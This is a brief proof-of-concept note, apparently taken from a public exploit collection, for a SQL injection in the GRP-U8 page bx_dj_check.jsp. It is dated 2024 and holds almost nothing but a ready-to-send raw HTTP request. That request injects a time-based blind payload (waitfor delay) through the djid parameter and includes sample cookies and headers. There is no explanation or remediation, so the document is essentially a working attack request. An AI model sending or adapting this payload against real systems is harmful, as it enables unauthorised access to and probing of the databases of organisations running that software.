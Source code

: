 # GRPU8_bx_dj_check.jsp_sqli

from : https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BGRP-U8-bx_dj_check.jsp%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5.md

2024.4.29 @2 

```
GET /u8qx/bx_dj_check.jsp?djlxdm=OER&djid=1';waitfor+delay+'0:0:3'-- HTTP/1.1
Host: 
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1677835116; JSESSIONID=881972DA273F6E95D532FE7B5E5C488F
Connection: close
```
